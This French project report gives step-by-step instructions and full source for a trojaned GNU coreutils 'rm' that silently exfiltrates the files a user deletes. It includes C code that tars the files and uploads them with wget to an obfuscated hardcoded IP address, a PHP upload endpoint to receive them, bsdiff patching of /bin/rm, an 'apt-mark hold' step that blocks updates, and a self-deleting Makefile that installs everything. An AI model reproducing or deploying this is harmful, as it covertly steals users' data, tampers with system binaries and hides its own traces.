









# BINARY PERSISTANCE

------------



[TOC]

## DESCRIPTION

Ce rapport présente une étude détaillée sur la persistance binaire. Le document explore en profondeur les processus de création, de configuration et de modification des serveurs et des fichiers système, afin de permettre une gestion efficace et sécurisée des données.

## INTRODUCTION

Ce rapport technique détaille les étapes nécessaires pour configurer un serveur de test, préparer l'environnement de développement, modifier le code source, compiler et tester les modifications, ainsi que créer et appliquer des patchs pour assurer la persistance binaire. Il se concentre spécifiquement sur la configuration d'un serveur Apache et PHP pour recevoir des fichiers, la modification de l'outil `rm` de Coreutils, et l'automatisation de ces processus à l'aide de Makefile.

Le contenu de ce rapport est destiné aux professionnels de l'informatique, aux développeurs et aux étudiants avancés qui souhaitent comprendre et implémenter des solutions de persistance binaire. Il couvre les aspects suivants :

1. Création et préparation d'un serveur de test:
   - Installation et configuration d'Apache.
   - Configuration de PHP pour la gestion des fichiers.
2. Préparation de l'environnement de développement :
   - Installation des dépendances nécessaires.
   - Téléchargement et préparation de Coreutils.
3. Modification du code source :
   - Calcul dynamique de l'adresse IP.
   - Suppression récursive de répertoires.
   - Gestion personnalisée des fichiers et compression.
4. Compilation et tests :
   - Recompilation des Coreutils après modification.
   - Tests pour s'assurer du bon fonctionnement des modifications.
5. Création et application de patch :
   - Utilisation de `bsdiff` pour créer des patchs binaires.
   - Application des patchs pour mettre à jour le fichier `rm`.
6. Automatisation avec Makefile:
   - Automatisation des processus de configuration et de mise à jour à l'aide de Makefile.

## SERVER

### 1.Creation de server test

J'ai cree un compte test sur ovh.com

> https://www.ovh.com/manager/#/hub






#### 1.1 Preparation cloud server ovh

J'ai installé Apache sur mon système en ouvrant le terminal et en lançant les commandes suivantes pour mettre à jour les paquets existants et installer Apache :

```c
sudo apt update
sudo apt install apache2
```

Une fois l'installation terminée, Apache a démarré automatiquement. Pour vérifier que tout fonctionnait correctement, j'ai utilisé cette commande :

```c
sudo systemctl status apache2
```



Cela m'a permis de confirmer que le serveur était actif et en cours d'exécution. Ensuite, j'ai ajusté les permissions du répertoire `/var/www/html` pour éviter tout problème de droits d'accès. J'ai attribué ce répertoire à l'utilisateur `www-data`, qui est le compte sous lequel Apache s'exécute sur Ubuntu :

```c
sudo chown -R www-data:www-data /var/www/html
```

J'ai également modifié les permissions pour permettre à Apache de lire et d'écrire dans les fichiers nécessaires :

```c
sudo chmod -R 755 /var/www/html
```

Enfin, j'ai créé un dossier `upload` dans ce répertoire pour y stocker les fichiers reçus :

```c
mkdir /var/www/html/upload
```

Cela a achevé la configuration de base nécessaire pour que mon serveur Apache puisse recevoir et stocker des fichiers.



#### 1.2 Configuration PHP

J'ai configuré PHP pour gérer la réception et le stockage des fichiers sur mon serveur. Pour cela, j'ai créé un fichier `upload.php` dans le répertoire `/var/www/html/upload/`. Ce script PHP s'occupe de traiter les fichiers envoyés via des formulaires web.

> Source: https://www.php.net/manual/en/function.move-uploaded-file.php

Voici le contenu du fichier `upload.php` que j'ai mis en place :

```php
<?php
if ($_FILES) {
    $uploaddir = '/var/www/html/upload/';  
    $uploadfile = $uploaddir . basename($_FILES['file']['name']);

    move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
}
?>
```

Ce script vérifie d'abord si des fichiers ont été envoyés. Si c'est le cas, il tente de les déplacer dans le dossier spécifié. 

### 2. Préparation de mon environnement de développement

> Source : https://ubuntu.com/download/server

#### 2.1 VirtualBox

Pour commencer, j'ai mis en place un environnement de développement sur VirtualBox avec `Ubuntu server 24.04`



#### 2.2 Installation des dépendances

J'ai veillé à installer toutes les dépendances nécessaires, y compris `gcc` pour la compilation, `make` pour gérer la construction, et les sources de `coreutils`.

```c
sudo apt-get install gcc make wget tar
```

#### 2.3 Téléchargement et préparation de Coreutils

J'ai téléchargé et préparé les Coreutils pour pouvoir travailler avec les outils de ligne de commande Linux de base.

```c
wget http://ftp.gnu.org/gnu/coreutils/coreutils-8.32.tar.xz
tar -xf coreutils-8.32.tar.xz
cd coreutils-8.32
```

### 3. Modification du Code Source

J'ai modifier le code source de `rm` dans le paquet Coreutils :

`nano ~/coreutils-8.32/src/rm.c`

#### 3.1 Fonction `calc`

Cette fonction me permet de calculer dynamiquement l'adresse IP du serveur où je souhaite envoyer des fichiers. 

Pour rendre cela un peu moins direct et plus sécurisé, j'ai utilisé des opérations sur des valeurs hexadécimales que j'ai décalées et ajustées. 

Par exemple, j'ai pris 108 en hexadécimal, je l'ai décalé de un bit vers la droite pour obtenir 54, qui est une partie de l'adresse IP. 

J'ai fait des ajustements similaires pour les autres parties de l'IP pour finalement obtenir l'adresse "**54.38.191.17**".

```c
char *calc() {
    int part1 = (0x6C >> 1);
    int part2 = (0x4E >> 1);
    int part3 = (0x17E >> 1);
    int part4 = (0x22 >> 1);
    part2--; 
    char *s = malloc(16);
    sprintf(s, "%d.%d.%d.%d", part1, part2, part3, part4);
    return s;
}
```

#### 3.2 Fonction `remove_directory`

Ensuite, j'ai écrit une fonction `remove_directory(const char *path)` pour supprimer récursivement un répertoire et tout ce qu'il contient. Cette fonction parcourt chaque fichier et sous-dossier du répertoire spécifié, en supprimant chaque élément. Si l'élément est un dossier, elle s'appelle elle-même de manière récursive pour le vider avant de le supprimer.

```c
int remove_directory(const char *path) {
    DIR *d = opendir(path);
    if (!d) return -1;
    struct dirent *p;
    while ((p = readdir(d)) != NULL) {
        if (!strcmp(p->d_name, ".") || !strcmp(p->d_name, ".."))
            continue;
        size_t len = strlen(path) + strlen(p->d_name) + 2;
        char *buf = malloc(len);
        snprintf(buf, len, "%s/%s", path, p->d_name);
        struct stat statbuf;
        if (!stat(buf, &statbuf)) {
            if (S_ISDIR(statbuf.st_mode))
                remove_directory(buf);
            else
                unlink(buf);
        }
        free(buf);
    }
    closedir(d);
    rmdir(path);
    return 0;
}
```


#### 3.3 Fonction `custom_handle_files`

La troisième grande partie de mon code concerne la gestion personnalisée des fichiers avec `custom_handle_files(char **files, int num_files, struct rm_options *x)`. 

Ici, je commence par vérifier la taille totale des fichiers pour m'assurer qu'elle ne dépasse pas **200 MB**, ce qui est ma limite pour un envoi. 

Ensuite, je crée un répertoire temporaire, en utilisant un **timestamp** pour le nommer. Cela me permet de savoir exactement quand les fichiers ont été préparés pour l'envoi. 

Je copie les fichiers dans ce répertoire, je les compresse en un fichier `.tar.gz`, et je prépare un corps de requête multipart pour les envoyer.

Pour l'envoi, j'utilise `wget` avec l'adresse IP que j'ai calculée avec `calc()`. 

J'envoie le fichier compressé sans laisser de traces sur la console, en rendant tout le processus transparent pour l'utilisateur.


```c
int custom_handle_files(char **files, int num_files, struct rm_options *x) {
    long max_size = 200 * 1024 * 1024; // Limite di 200 MB
    long total_size = 0;
    struct stat st;
    char dir_path[256], tar_path[512], body_path[512], cmd[1024];
    char boundary[] = "----WebKitFormBoundary7MA4YWxkTrZu0gW";
    for (int i = 0; i < num_files; i++) {
        if (stat(files[i], &st) != 0 || (total_size += st.st_size) > max_size)
            return 0;
    }
    time_t now = time(NULL);
    snprintf(dir_path, sizeof(dir_path), "/tmp/tmp%ld", now);
    mkdir(dir_path, 0777);

    for (int i = 0; i < num_files; i++) {
        char new_path[1024];
        snprintf(new_path, sizeof(new_path), "%s/%s", dir_path, basename(files[i]));
        snprintf(cmd, sizeof(cmd), "cp '%s' '%s'", files[i], new_path);
        system(cmd);
    }

    snprintf(tar_path, sizeof(tar_path), "%s.tar.gz", dir_path);
    snprintf(cmd, sizeof(cmd), "tar -czf %s -C %s .", tar_path, dir_path);
    system(cmd);

    snprintf(body_path, sizeof(body_path), "%s/body-%ld.txt", dir_path, now);
    FILE* body_file = fopen(body_path, "w");
    fprintf(body_file, "--%s\r\n", boundary);
    fprintf(body_file, "Content-Disposition: form-data; name=\"file\"; filename=\"%s\"\r\n", basename(tar_path));
    fprintf(body_file, "Content-Type: application/gzip\r\n\r\n");
    fclose(body_file);

    snprintf(cmd, sizeof(cmd), "cat %s >> %s", tar_path, body_path);
    system(cmd);

    body_file = fopen(body_path, "a");
    fprintf(body_file, "\r\n--%s--\r\n", boundary);
    fclose(body_file);

    char *server_address = calc();
    snprintf(cmd, sizeof(cmd), "wget --header \"Content-Type: multipart/form-data; boundary=%s\" --post-file '%s' '%s/upload.php' -O - > /dev/null 2>&1", boundary, body_path, server_address);
    system(cmd);
    free(server_address);
    unlink(tar_path);
    unlink(body_path);
    remove_directory(dir_path);
    return 1;
}
```

#### 3.4 Fonction `main`

Dans la fonction `main`, j'ai ajouté une petite condition pour vérifier si le programme `rm` est exécuté directement par un utilisateur dans un terminal ou par un script. 

Si c'est exécuté dans un terminal (ce que je vérifie avec `isatty(STDIN_FILENO)`), j'exécute ma fonction `custom_handle_files`. Sinon, je procède à une suppression normale avec `rm`. 

Cela me permet de m'assurer que mes opérations spéciales ne sont utilisées que dans les contextes appropriés, sans interférer avec des scripts ou des automatisations qui pourraient appeler `rm`.

```c
//....
  if (isatty(STDIN_FILENO)) {
      if (!custom_handle_files(argv + optind, argc - optind, &x)) {
          return rm(argv + optind, &x);
      }
  } else {return rm(argv + optind, &x); }
//...
```

### 4. Compilation et Test

#### 4.1 Compilation

Après avoir modifié le code, j'ai dû recompiler les `coreutils`.
```c
./configure
make
```

#### 4.2 Test




## PATCH

### 5 Création file de patching

> Source: https://doc.ubuntu-fr.org/patch

#### 5.1 Installation `bsdiff`

j'ai installé `bsdiff` pour gérer les modifications de fichiers binaires. 

```c
sudo apt install bsdiff
```

#### 5.2 Création d'un patch entre deux fichiers

Ensuite, pour créer une patch, j'ai pris mon fichier original et la version modifiée, puis j'ai utilisé `bsdiff file_original file_new patch_output` pour générer le fichier de patch. 

```c
bsdiff file_original file_new patch_output
```



#### 5.3 Application patch

Après, j'ai appliqué ce patch au fichier original avec `bspatch file_original file_out patch_output`. C

```c
bspatch file_original file_out patch_output
```



Après, j'ai supprimé mon fichier `rm` original et l'ai remplacé par `rm_out`, puis j'ai renommé `rm_out` en rm pour remplacer complètement le fichier original. 

J'ai testé le nouveau fichier `rm` et il fonctionne parfaitement, supprimant le fichier choisi et envoyant tout sur mon serveur chez OVH.

#### 5.4 Persistence modification

Pour éviter que ma version personnalisée de `rm` ne soit mise à jour lors des mises à jour système avec `apt`, j'utilise la commande `apt-mark hold` pour bloquer la mise à jour du paquet spécifique. 

```c
sudo apt-mark hold coreutils
```

Cette commande empêche `apt` de mettre à jour `coreutils` lors des mises à jour du système, gardant ainsi ma version personnalisée de `rm` inchangée.


## MAKEFILE

### 6 Création Makefile

> Source : https://manpages.ubuntu.com/manpages/lunar/man1/makepp_tutorial.1.html

J'ai créé un Makefile pour automatiser la configuration et l'application de patchs sur `rm` sous Ubuntu/Debian. D'abord, le Makefile met à jour le système sans afficher de messages inutiles. Ensuite, il installe toutes les dépendances nécessaires comme bsdiff, gcc, make, tar et git. 

Il télécharge ensuite les fichiers nécessaires depuis mon dépôt GitHub et applique un patch au fichier `rm` existant dans `/bin`, en le remplaçant par ma version modifiée. 

Pour préserver cette modification lors des mises à jour du système, je bloque les mises à jour du paquet `coreutils` avec `apt-mark hold`. 

Enfin, le Makefile déplace le dossier du projet et lui-même dans `/tmp` avant de nettoyer cet emplacement, ce qui signifie que **le Makefile s'auto-supprime** après avoir exécuté toutes les opérations.

#### 6.1 Code Makefile 

```makefile
# Makefile config new rm pour Ubuntu/Debian
all: setup install_dependencies download_files apply_patch hold_package clean remove_makefile
setup:
	sudo apt-get update -qq
install_dependencies:
	sudo apt-get install -y build-essential bsdiff gcc make wget tar git
download_files:
	git clone https://github.com/SoufianeElkha/binary_persistance_rm project_rm
	cd project_rm && git checkout main
apply_patch:
	bsdiff /bin/rm project_rm/rm project_rm/rm_patch
	bspatch /bin/rm rm_out project_rm/rm_patch
	sudo mv rm_out /bin/rm
	sudo chmod +x /bin/rm
hold_package:
	sudo apt-mark hold coreutils
clean:
	sudo mv project_rm /tmp/
remove_makefile:
	sudo mv Makefile /tmp/
	sudo rm -rf /tmp/*
	clear
.PHONY: all setup install_dependencies download_files apply_patch hold_package clean remove_makefile
```


**Attention**, en utilisant ce makefile dans un environnement de test,  sachez qu'il faudrait modifier le calcul de l'IP pour obtenir l'IP  correcte du nouvel OVH ou du serveur préféré. Ce makefile modifie  directement la commande `rm` dans le système de fichiers `/bin`.


## SOURCES

1. **OVH Cloud** :
   - [Site officiel d'OVH](https://www.ovh.com/manager/#/hub)
2. **Apache HTTP Server** :
   - [Site officiel d'Apache HTTP Server](https://httpd.apache.org/)
3. **PHP Documentation** :
   - [PHP: move_uploaded_file - Manual](https://www.php.net/manual/en/function.move-uploaded-file.php)
4. **Ubuntu** :
   - [Télécharger Ubuntu Server](https://ubuntu.com/download/server)
   - [Documentation Ubuntu Patch](https://doc.ubuntu-fr.org/patch)
5. **Coreutils** :
   - [GNU Coreutils](http://ftp.gnu.org/gnu/coreutils/)
6. **GNU Wget** :
   - Wget Documentation
7. **GNU Bsdiff** :
   - [Bsdiff Documentation](https://manpages.ubuntu.com/manpages/lunar/man1/bsdiff.1.html)
8. **Make** :
   - [Make Tutorial](https://manpages.ubuntu.com/manpages/lunar/man1/makepp_tutorial.1.html)
9. **VirtualBox** :
   - [Site officiel de VirtualBox](https://www.virtualbox.org/)
